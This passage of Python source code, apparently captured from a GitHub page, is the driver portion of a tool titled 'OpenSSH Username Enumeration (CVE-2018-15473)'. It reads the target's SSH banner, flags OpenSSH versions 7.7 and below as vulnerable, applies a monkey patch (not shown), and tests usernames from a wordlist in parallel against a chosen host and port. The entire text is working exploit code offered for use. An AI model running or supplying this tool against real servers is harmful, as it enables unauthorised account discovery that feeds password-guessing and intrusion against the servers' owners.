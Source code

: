 ```python
        print(f'[-] {Color.string(username, color="red")} not found')


def main(**kwargs):
    """ main entry point for the program """
    sock = create_socket(kwargs.get('hostname'), kwargs.get('port'))
    if not sock:
        return

    banner = sock.recv(1024).decode()

    regex = re.search(r'-OpenSSH_(?P<version>\d\.\d)', banner)
    if regex:
        try:
            version = float(regex.group('version'))
        except ValueError:
            print(f'[!] Attempted OpenSSH version detection; version not recognized.\n[!] Found: {regex.group("version")}')
        else:
            ver_clr = 'green' if version <= 7.7 else 'red'
            print(f"[+] {Color.string('OpenSSH', color=ver_clr)} version {Color.string(version, color=ver_clr)} found")
    else:
        print(f'[!] Attempted OpenSSH version detection; version not recognized.\n[!] Found: {Color.string(banner, color="yellow")}')    

    apply_monkey_patch()

    if kwargs.get('username'):
        kwargs['username'] = kwargs.get('username').strip()
        return connect(**kwargs)

    with multiprocessing.Pool(kwargs.get('threads')) as pool, Path(kwargs.get('wordlist')).open() as usernames:
        host = kwargs.get('hostname')
        port = kwargs.get('port')
        verbose = kwargs.get('verbose')
        pool.starmap(connect, [(user.strip(), host, port, verbose) for user in usernames])


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description="OpenSSH Username Enumeration (CVE-2018-15473)")

    parser.add_argument('hostname', help='target to enumerate', type=str)
    parser.add_argument('-p', '--port', help='ssh port (default: 22)', default=22, type=int)
    parser.add_argument('-t', '--threads', help="number of threads (default: 4)", default=4, type=int)
    parser.add_argument('-v', '--verbose', action='store_true', default=False,
                        help="print both valid and invalid usernames (default: False)")
    parser.add_argument('-6', '--ipv6', action='store_true', help="Specify use of an ipv6 address (default: ipv4)")

    multi_or_single_group = parser.add_mutually_exclusive_group(required=True)
    multi_or_single_group.add_argument('-w', '--wordlist', type=str, help="path to wordlist")
    multi_or_single_group.add_argument('-u', '--username', help='a single username to test', type=str)

    args = parser.parse_args()

    logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())

    main(**vars(args))
```